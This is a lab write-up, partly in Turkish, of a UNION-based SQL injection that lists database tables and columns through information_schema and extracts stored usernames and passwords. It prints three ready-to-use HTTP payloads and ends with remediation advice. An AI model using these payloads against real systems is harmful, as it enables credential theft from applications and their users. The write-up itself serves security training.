



# SQL injection attack, listing the database contents on non-Oracle databases

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Uygulama filtreleme için kullanılan `category` parametresini doğrulamadan SQL sorgusuna ekliyor. Bu sayede `UNION SELECT` ile veri tabanındaki tabloları, sütunları ve kayıtları listelemek mümkün oldu.

## 3. Exploitation Steps

1. `category` parametresine tek tırnak ekleyerek sorguyu kırıp kırmadığını kontrol ettim.
2. `UNION SELECT` ile doğru kolon sayısını bulmak için testler yaptım.
3. İlk olarak `information_schema.tables` üzerinden tablo isimlerini listeledim.
4. Daha sonra `information_schema.columns` ile `users_rxikep` tablosunun sütun adlarını aldım.
5. Son olarak `users_rxikep` tablosundan `username_hxqyez` ve `password_tlivgi` değerlerini çektim.

## 4. Kullanılan Payloadlar

- Tabloları listelemek için:

```http
GET /filter?category=' UNION SELECT table_name,null FROM information_schema.tables-- HTTP/2
```



- Bir tablo için sütunları listelemek için:

```http
GET /filter?category=' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name='users_rxikep'-- HTTP/2
```



- Kullanıcı bilgilerini çıkarmak için:

```http
GET /filter?category=' UNION SELECT username_hxqyez,password_tlivgi FROM users_rxikep-- HTTP/2
```



## 5. Sonuç

- `information_schema.tables` üzerinden veritabanındaki tablo adlarını gözlemledim.
- `information_schema.columns` ile `users_rxikep` tablosundaki sütun adlarını tespit ettim.
- `users_rxikep` tablosundan `username_hxqyez` ve `password_tlivgi` değerlerini elde ettim.

## 6. Etki

Bu zafiyet, saldırganın veritabanı yapısını keşfetmesine ve hassas verileri dışarı çıkarmasına imkan sağlar. Veritabanı tabloları, sütun adları ve kullanıcı kayıtları açığa çıkabilir.

## 7. Çözüm

- SQL sorgularını parametreli/prepared statement olarak yaz.
- Kullanıcı girdilerini doğrula ve filtrele.
- Hata mesajlarında ve çıktı alanlarında iç veritabanı bilgisi göstermemeye dikkat et.

## 8. Kanıt


